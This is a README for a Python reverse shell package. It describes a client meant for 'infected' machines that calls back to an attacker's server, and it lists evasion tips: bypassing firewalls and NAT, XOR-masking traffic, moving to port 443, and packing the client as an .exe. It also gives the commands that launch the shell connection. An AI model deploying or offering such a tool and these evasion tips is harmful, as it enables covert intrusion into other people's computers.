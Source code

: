 # reverse_shell
A reverse shell 

DISCLAIMER: I really shouldn't have to say this but DON'T USE THIS WITHOUT THE COMPUTER OWNER'S CONSENT

Features:

-Reverse TCP/IP connection, circumventing victim-side firewall roules (in most cases) and NAT limitations.
-Trafic Masking. All traffic is sent XORed and not in clear text. For better masking swap port to 443.*
-Support for multiple connections. The Server part is built with support for multiple simulatneus connections, with Hosts list managment.
-Client script is tested and is compatible with PyInstaller (can be made into .exe)**

Deployment:

-The server is situated at the attacker's machine and running to accept connections
-The client is situated in the infected machine(s) and will initiate the connection and wait for input.

Execution:

In their current stated the scripts are executed as follows
-Server: python rev_shell_server.py (max_connections) 
max_connections defaults to 5 if left blank
-Client: python rev_shell_client.py (server_ip)

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

*The idead for XORing as well as the skeleton for the client came from (http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do
**Again check primalsecurity.net's perfect blogpost about producing an .exe
